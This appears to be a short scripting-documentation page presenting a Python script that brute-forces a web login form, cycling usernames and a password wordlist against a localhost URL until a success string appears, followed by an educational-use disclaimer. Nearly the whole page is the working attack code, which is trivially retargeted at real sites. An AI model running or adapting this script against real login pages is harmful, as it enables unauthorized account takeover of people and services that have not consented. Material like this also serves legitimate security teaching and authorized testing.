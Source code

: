 [requests module 🌐](https://emik11.github.io/TheDocumentation/Scripting/Python/Python%20Modules/Useful%20Modules/#requests "Useful modules #requests")

---

This script uses the `requests` module to perform a web login form brute-force attack.

```py linenums="1"
import requests
import sys

target = "http://127.0.0.1:5000"
usernames = ["admin", "user", "test"]
passwords = "top-100.txt"
needle = "Welcome back"

for username in usernames:
    with open(passwords, "r") as passwords_list:
        for password in passwords_list:
            password = password.strip("\n").encode('latin-1')
            sys.stdout.write(f"[X] Attempting user:password -> {username}:{password.decode('latin-1')}\r")
            sys.stdout.flush()
            
            r = requests.post(target, data={"username": username, "password": password})
            
            if needle.encode() in r.content:
                sys.stdout.write("\n")
                sys.stdout.write(f"\t[>>>>>] Valid password '{password}' found for user '{username}'!")
                sys.exit()

        sys.stdout.flush()
        sys.stdout.write("\n")
        sys.stdout.write(f"\t No password found for '{username}'!")
        sys.stdout.write("\n")
```

!!! warning "Legal Disclaimer"
    This script is for educational purposes only. Unauthorized use of this script against systems without explicit permission is illegal and unethical.